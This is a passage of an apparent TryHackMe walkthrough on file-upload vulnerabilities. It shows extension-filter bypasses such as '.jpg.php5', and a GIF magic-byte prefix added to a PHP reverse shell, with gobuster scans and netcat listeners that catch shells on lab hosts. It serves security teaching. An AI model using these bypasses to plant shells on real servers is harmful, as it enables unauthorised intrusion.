Ok, we'll start by scoping this out with a completely legitimate upload. Let's try uploading the spaniel.jpg image from before:


Well, that tells us that JPEGS are accepted at least. Let's go for one that we can be pretty sure will be rejected (shell.php):


Can't say that was unexpected.

From here we enumerate further, trying the techniques from above and just generally trying to get an idea of what the filter will accept or reject.

In this case we find that there are no shell extensions that both execute, and are not filtered, so it's back to the drawing board.

In the previous example we saw that the code was using the `pathinfo()` PHP function to get the last few characters after the `.`, but what happens if it filters the input slightly differently?

Let's try uploading a file called `shell.jpg.php`. We already know that JPEG files are accepted, so what if the filter is just checking to see if the `.jpg` file extension is somewhere within the input?

Pseudocode for this kind of filter may look something like this:

```text
ACCEPT FILE FROM THE USER -- SAVE FILENAME IN VARIABLE userInput
IF STRING ".jpg" IS IN VARIABLE userInput:
    SAVE THE FILE
ELSE:
    RETURN ERROR MESSAGE
```

When we try to upload our file we get a success message. Navigating to the `/uploads` directory confirms that the payload was successfully uploaded:


Activating it, we receive our shell:


-----------------------------------

This is by no means an exhaustive list of upload vulnerabilities related to file extensions. As with everything in hacking, we are looking to exploit flaws in code that others have written; this code may very well be uniquely written for the task at hand. This is the really important point to take away from this task: there are a million different ways to implement the same feature when it comes to programming -- your exploitation must be tailored to the filter at hand. The key to bypassing any kind of server side filter is to enumerate and see what is allowed, as well as what is blocked; then try to craft a payload which can pass the criteria the filter is looking for.

-----------------------------------

Now your turn. You know the drill by now -- figure out and bypass the filter to upload and activate a shell. Your flag is in `/var/www/`. The site you're accessing is `http://annex.uploadvulns.thm`.

Be aware that this task has also implemented a randomised naming scheme for the first time. For now you shouldn't have any trouble finding your shell, but be aware that directories will not always be indexable...

#### What is the flag in /var/www/?

Do a gobuster scan to identify the upload directory:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://annex.uploadvulns.thm
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://annex.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/privacy              (Status: 301) [Size: 332] [--> http://annex.uploadvulns.thm/privacy/]
/assets               (Status: 301) [Size: 331] [--> http://annex.uploadvulns.thm/assets/]
/server-status        (Status: 403) [Size: 286]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The upload directory seems to be `/privacy`.

We start a netcat listener:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

Next we check out the home papge of `http://annex.uploadvulns.thm/` and try to upload a legitimate image (mountains.jpg)

```text

Upload a file (type "help" for syntax):
$ help
Usage:
 -select        selects a file
 -upload        uploads the selected file
 -chosen        outputs the name of the chosen file
$ select
$ upload
```

The result is: `File Uploaded Successfully`.

The we try to upload a reverse shell with different extensions:

- `php-reverse-shell.jpg.php`, Fails! (File type is invalid)
- `php-reverse-shell.jpg.phar`, Fails! (File type is invalid)
- `php-reverse-shell.jpg.php5`, Success! (File Uploaded Successfully)

Then we upload the reverse shell and verify that it uploaded correctly by accessing `http://annex.uploadvulns.thm/privacy`.  
The reverse shell should be present in the directory listing but with a different name:

```text
Index of /privacy
[ICO]    Name    Last modified    Size    Description
[PARENTDIR]    Parent Directory         -      
[IMG]    2025-05-04-17-22-17-mountains.jpg    2025-05-04 17:22     879K     
[IMG]    2025-05-04-17-27-50-php-reverse-shell.jpg.php5    2025-05-04 17:27     3.4K     
Apache/2.4.41 (Ubuntu) Server at annex.uploadvulns.thm Port 80
```

Click on the link to the reverse shell to trigger it.

Finally, go back at the netcat listener and get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.141.2] 55384
Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:30:52 up 11 min,  0 users,  load average: 0.00, 0.14, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www
$ ls -l
total 12
-rw-rw-rw- 1 root     root       38 Jun  8  2020 flag.txt
drwxr-xr-x 1 www-data www-data 4096 Jun  8  2020 html
$ cat flag.txt
THM{<REDACTED>}
$ exit
```

Flag: `THM{<REDACTED>}`

### Task 9 - Bypassing Server-Side Filtering: Magic Numbers

We've already had a look at server-side extension filtering, but let's also take the opportunity to see how magic number checking could be implemented as a server-side filter.

As mentioned previously, magic numbers are used as a more accurate identifier of files. The magic number of a file is a string of hex digits, and is always the very first thing in a file. Knowing this, it's possible to use magic numbers to validate file uploads, simply by reading those first few bytes and comparing them against either a whitelist or a blacklist. Bear in mind that this technique can be very effective against a PHP based webserver; however, it can sometimes fail against other types of webserver (hint hint).

Let's take a look at an example. As per usual, we have an upload page:


As expected, if we upload our standard shell.php file, we get an error; however, if we upload a JPEG, the website is fine with it. All running as per expected so far.

From the previous attempt at an upload, we know that JPEG files are accepted, so let's try adding the JPEG magic number to the top of our `shell.php` file. A quick look at the [list of file signatures on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) shows us that there are several possible magic numbers of JPEG files. It shouldn't matter which we use here, so let's just pick one (`FF D8 FF DB`). We could add the ASCII representation of these digits (`ÿØÿÛ`) directly to the top of the file but it's often easier to work directly with the hexadecimal representation, so let's cover that method.

Before we get started, let's use the Linux file command to check the file type of our shell:


As expected, the command tells us that the filetype is PHP. Keep this in mind as we proceed with the explanation.

We can see that the magic number we've chosen is four bytes long, so let's open up the reverse shell script and add four random characters on the first line. These characters do not matter, so for this example we'll just use four "A"s:


Save the file and exit. Next we're going to reopen the file in `hexeditor` (which comes by default on Kali), or any other tool which allows you to see and edit the shell as hex. In hexeditor the file looks like this:


Note the four bytes in the red box: they are all `41`, which is the hex code for a capital "A" -- exactly what we added at the top of the file previously.

Change this to the magic number we found earlier for JPEG files: `FF D8 FF DB`


Now if we save and exit the file (`Ctrl + X`), we can use file once again, and see that we have successfully spoofed the filetype of our shell:


Perfect. Now let's try uploading the modified shell and see if it bypasses the filter!


There we have it -- we bypassed the server-side magic number filter and received a reverse shell.

Head to `http://magic.uploadvulns.thm` -- it's time for the last mini-challenge.

-----------------------------------

This will be the final example website you have to hack before the challenge in task eleven; as such, we are once again stepping up the level of basic security. The website in the last task implemented an altered naming scheme, prepending the date and time of upload to the file name. This task will not do so to keep it relatively easy; however, directory indexing has been turned off, so you will not be able to navigate to the directory containing the uploads. Instead you will need to access the shell directly using its URI.

Bypass the magic number filter to upload a shell. Find the location of the uploaded shell and activate it. Your flag is in `/var/www/`.

#### Grab the flag from /var/www/

Do a gobuster scan to identify the upload directory:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://magic.uploadvulns.thm
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://magic.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/graphics             (Status: 301) [Size: 333] [--> http://magic.uploadvulns.thm/graphics/]
/assets               (Status: 301) [Size: 331] [--> http://magic.uploadvulns.thm/assets/]
/server-status        (Status: 403) [Size: 286]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The uploads directory seems to be `/graphics`.

Next we try to upload a benign image (mountain.jpg). The result is `GIFs only please!`.

Now we prepare a new shell with the magic bytes of a GIF (ASCII `GIF87a`) in the beginning and our normal reverse shell appended to it.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ echo -n 'GIF87a' > rev_shell.gif.php       

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ cat php-reverse-shell.php >> rev_shell.gif.php 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ file rev_shell.gif.php 
rev_shell.gif.php: GIF image data, version 87a, 16188 x 26736
```

Select this shell and upload it. That results in: `File successfully uploaded`.

If we try to access `http://magic.uploadvulns.thm/graphics/` we get an error message. Directory listing is not enabled.

As usual we start a netcat listener:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

Let's hope the filename is unchange and manually trigger `http://magic.uploadvulns.thm/graphics/rev_shell.gif.php`

Finally, go back at the netcat listener and get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Upload_Vulnerabilities]
└─$ nc -lvnp 12345                                
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.141.2] 40474
Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:13:30 up 54 min,  0 users,  load average: 0.87, 0.57, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{<REDACTED>}
$ exit 
```

Flag: `THM{<REDACTED>}`

### Task 10 - Example Methodology

We've seen various different types of filter now -- both client side and server side -- as well as the general methodology for file upload attacks. In the next task you're going to be given a black-box file upload challenge to complete, so let's take the opportunity to discuss an example methodology for approaching this kind of challenge in a little more depth. You may develop your own alternative to this method, however, if you're new to this kind of attack, you may find the following information useful.

We'll look at this as a step-by-step process. Let's say that we've been given a website to perform a security audit on.

1. The first thing we would do is take a look at the website as a whole. Using browser extensions such as the aforementioned Wappalyzer (or by hand) we would look for indicators of what languages and frameworks the web application might have been built with. Be aware that Wappalyzer is not always 100% accurate. A good start to enumerating this manually would be by making a request to the website and intercepting the response with Burpsuite. Headers such as `server` or `x-powered-by` can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page.

2. Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control.

3. We would then attempt a completely innocent file upload. From here we would look to see how our file is accessed. In other words, can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? This is where tools such as Gobuster might come in if the location is not immediately obvious. This step is extremely important as it not only improves our knowledge of the virtual landscape we're attacking, it also gives us a baseline "accepted" file which we can base further testing on.  
An important Gobuster switch here is the `-x` switch, which can be used to look for files with specific extensions. For example, if you added `-x php,txt,html` to your Gobuster command, the tool would append `.php`, `.txt`, and `.html` to each word in the selected wordlist, one at a time. This can be very useful if you've managed to upload a payload and the server is changing the name of uploaded files.

4. Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.

Assuming that our malicious file upload has been stopped by the server, here are some ways to ascertain what kind of server-side filter may be in place:

- If you can successfully upload a file with a totally invalid file extension (e.g. `testingimage.invalidfileextension`) then the chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist.

- Try re-uploading your originally accepted innocent file, but this time change the magic number of the file to be something that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter.

- As with the previous point, try to upload your innocent file, but intercept the request with Burpsuite and change the MIME type of the upload to something that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types.

- Enumerating file length filters is a case of uploading a small file, then uploading progressively bigger files until you hit the filter. At that point you'll know what the acceptable limit is. If you're very lucky then the error message of original upload may outright tell you what the size limit is. Be aware that a small file length limit may prevent you from uploading the reverse shell we've been using so far.

You should now be well equipped to take on the challenge in task eleven.

### Task 11 - Challenge [Optional]

**Author's Note**: After years of confusion, I have made the challenge optional. The following instructions still work, and the challenge is still available in the provided VM should you choose to attempt it.

Be aware that the challenge is a big step up from the walkthrough content in the room, and contains a twist which you are very unlikely to see in the real world.

-----------------------------------

It's challenge time!

Head over to `http://jewel.uploadvulns.thm`.

Take what you've learned in this room and use it to get a shell on this machine. As per usual, your flag is in `/var/www/`. Bear in mind that this challenge will be an accumulation of everything you've learnt so far, so there may be multiple filters to bypass. **The attached wordlist might help**. Also remember that not all webservers have a PHP backend...

If you need a help, there are a series of hints [here](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/).

Additionally, there is a full video walkthrough available for this challenge [here](https://youtu.be/8UPXibv_s1A).

### Task 12 - Conclusion

Well, that's us done. Hopefully you've learnt something from completing this room. This was a very brief introduction to the basics of file upload vulnerabilities -- there is a lot more to learn! Use what you've learnt here to go and research more advanced exploits related to malicious file uploads.

Now that you've finished the room, remember to revert the changes you made your `hosts` file, way back in Task 1.

As a reminder, here are the commands to do so.

On Linux or MacOS:

`sudo sed -i '$d' /etc/hosts`

On Windows:

`(GC C:\Windows\System32\drivers\etc\hosts | select -Skiplast 1) | SC C:\Windows\System32\drivers\etc\hosts`

For additional information, please see the references below.

## References

- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [Reverse Shell Cheat Sheet - Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Virtual hosting - Wikipedia](https://en.wikipedia.org/wiki/Virtual_hosting)
- [Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)
